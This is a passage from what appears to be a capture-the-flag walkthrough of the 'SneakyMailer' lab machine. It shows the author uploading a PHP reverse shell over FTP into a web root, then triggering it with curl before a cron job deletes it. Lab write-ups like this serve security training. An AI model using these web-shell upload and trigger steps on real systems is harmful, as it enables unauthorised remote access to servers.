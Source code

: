 ![dev](/assets/img/Posts/SneakyM/dev.png)

### Reverse Shell

It appears we can upload files into ftp and the root folder is of dev.sneakycorp.htb, So we'll upload a [**PHP reverse shell**](http://pentestmonkey.net/tools/web-shells/php-reverse-shell):

```shell
ftp> put rev.php
local: rev.php remote: rev.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5493 bytes sent in 0.00 secs (26.4572 MB/s)
```

Seems there is cron running which deletes the uploaded files so we need to be quick and trigger it to get a reverse shell:

```shell
cfx:  ~/Documents/htb/sneakymailer
→ curl http://dev.sneakycorp.htb/rev.php
```
